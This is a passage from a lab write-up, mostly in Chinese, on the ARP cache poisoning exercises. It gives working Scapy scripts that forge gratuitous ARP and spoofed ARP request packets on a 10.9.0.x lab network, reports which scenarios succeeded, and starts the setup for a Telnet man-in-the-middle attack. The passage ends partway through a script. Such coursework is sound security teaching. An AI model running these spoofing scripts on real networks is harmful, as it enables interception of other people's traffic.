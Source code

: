 结果与任务1效果相同。

```shell
arp -d 10.9.0.6
arp -d 10.9.0.105
```

进入场景2，再次运行ARP reply的脚本。这次攻击没有成功。

![image-20220406163250738](ARP Cache Poisoning.assets/image-20220406163250738.png)

---

**Task 1.C (using ARP gratuitous message).** On host M, construct an ARP gratuitous packet, and use
it to map B’s IP address to M’s MAC address. Please launch the attack under the same two scenarios as those described in Task 1.B.
ARP gratuitous packet is a special ARP request packet. It is used when a host machine needs to update outdated information on all the other machine’s ARP cache. The gratuitous ARP packet has the following characteristics:
– The source and destination IP addresses are the same, and they are the IP address of the host issuing the gratuitous ARP.
– The destination MAC addresses in both ARP header and Ethernet header are the broadcast MAC address (ff:ff:ff:ff:ff:ff).
– No reply is expected.

```python
#!/usr/bin/env python3
from scapy.all import *
E = Ether()
A = ARP()
A.psrc = "10.9.0.6"
A.pdst = "10.9.0.6"
A.hwdst = "ff:ff:ff:ff:ff:ff"
E.dst = "ff:ff:ff:ff:ff:ff"
pkt = E/A
sendp(pkt)
```

模拟上一任务提到的两个场景。场景1，我们先用host B ping host A，使得host A的ARP缓存中B的IP对应B的MAC地址。然后从M运行攻击脚本，可以看见B的IP被映射到了M的MAC地址。

![image-20220406163902800](ARP Cache Poisoning.assets/image-20220406163902800.png)

场景2，攻击没有成功。

![image-20220406164104754](ARP Cache Poisoning.assets/image-20220406164104754.png)

## Task 2: MITM Attack on Telnet using ARP Cache Poisoning

### Step 1 (Launch the ARP cache poisoning attack).

```python
#!/usr/bin/env python3
from scapy.all import *
E = Ether()
A = ARP()
A.op = 1 # 1 for ARP request; 2 for ARP reply
A.psrc = "10.9.0.6"
A.pdst = "10.9.0.5"
pkt = E/A
sendp(pkt)

E = Ether()
A = ARP()
A.op = 1 # 1 for ARP request; 2 for ARP reply
A.psrc = "10.9.0.5"
A.pdst = "10.9.0.6"
```